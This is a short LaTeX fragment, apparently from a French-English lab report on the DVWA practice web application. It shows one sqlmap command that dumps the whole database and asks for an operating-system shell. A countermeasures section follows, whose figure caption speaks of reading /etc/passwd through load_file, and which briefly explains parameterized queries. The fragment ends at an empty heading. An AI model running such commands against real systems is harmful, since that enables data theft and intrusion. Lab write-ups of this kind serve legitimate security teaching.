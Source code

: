 \begin{verbatim}
sqlmap -r ./toto.txt –dbs -D dvwa –dump all –os-shell
\end{verbatim}


\subsection{Contre-mesures}

\begin{figure}[!h]
	\begin{center}
		\label{}
		\includegraphics[scale=\scaledvwa]{images/sql/sqli_impossible.png}
		\caption{Récupération du fichier /etc/passwd via la commande load\_file : }
	\end{center}
\end{figure}

The queries are now parameterized queries (rather than being dynamic). This means the query has been defined by the developer, and has distinguish which sections are code, and the rest is data.


\subsubsection{utilisation de }























